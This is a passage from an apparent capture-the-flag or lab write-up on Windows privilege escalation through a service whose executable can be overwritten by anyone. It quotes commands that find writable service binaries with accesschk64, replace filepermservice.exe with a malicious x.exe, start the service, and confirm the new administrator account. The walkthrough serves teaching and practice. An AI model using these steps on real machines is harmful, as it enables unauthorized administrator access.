 To confirm the successful execution we check if the user is added to the local administrators' group (that is the command that we have inserted in the *Run* function in the *windows_service.c* file):

![Administrator](/assets/img/posts/windows-privesc/task5/administrator_user.png)


### <span style="color: var(--link-color);">[Task 6] - Service Escalation - Executable Files </span>
If a user has to write permissions in a folder used by a service, then he can replace the binary with a malicious one. In this way, when the service is restarted, the malicious file will be executed.

> Detection
> 
> Windows VM
> 
> 1. Open command prompt and type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
> 2. Notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the filepermservice.exe file.
> 
> Exploitation
> 
> Windows VM
> 
> 1. Open command prompt and type: copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
> 2. In command prompt type: sc start filepermsvc
> 3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators


##### Detection
To check the user permission of the **"File Permissions Service"** folder, we use our good friend **accesschk64.exe**:
![accesschk64](/assets/img/posts/windows-privesc/task6/task6_detection.png)
